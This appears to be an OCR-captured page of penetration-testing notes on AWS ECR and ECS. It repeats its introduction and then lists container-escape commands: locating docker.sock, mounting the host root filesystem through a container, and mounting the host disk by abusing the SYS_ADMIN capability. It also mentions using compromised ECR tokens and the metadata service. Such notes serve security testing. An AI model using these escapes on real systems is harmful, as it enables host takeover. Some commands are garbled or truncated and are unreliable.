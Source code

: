 ## Introduction  
Amazon ECR provides a command-line interface (CLI) and APIs to manage repositories and integrated services, such as Amazon Elastic Container Service (Amazon ECS), which installs and manages the infrastructure for these containers. The primary difference between Amazon ECR and ECS is that while ECR provides the repository that stores all code that has been written and packaged as a Docker image, the ECS takes these files and actively uses them in the deployment of applications.Amazon ECR provides a command-line interface (CLI) and APIs to manage repositories and integrated services, such as Amazon Elastic Container Service (Amazon ECS), which installs and manages the infrastructure for these containers. The primary difference between Amazon ECR and ECS is that while ECR provides the repository that stores all code that has been written and packaged as a Docker image, the ECS takes these files and actively uses them in the deployment of applications.

## (ECR) With compromised tokens, we can pull docker images to run locally and gain access to the container  

## ECS Escapes  
### 1: Docker Sockets  
Search with `find / -name docker.sock 2>/dev/null`  
Check images `docker images`  
Start a container `docker run -it -v /:/host/327129574815.dkr.ecr.us-east-1.amazonaws.com/ttyd-docker bash` list files `cd /host/ && ls -l`  
From inside the instance, we can interact with the instance metadata service to perform further attacks.  
### Abusing SYS_ADMIN Capability  
Check capabilities `capsh --print`  
If SYS_ADMIN is listed, the container can mount/unmount disks on the host machine.  
Check disks `fdisk –` (The disk /dev/xvda1 contains the root file system of the host machine)  
Mount and list `mount /dev/xvda1 /mnt/ && ls -l /mnt/`  

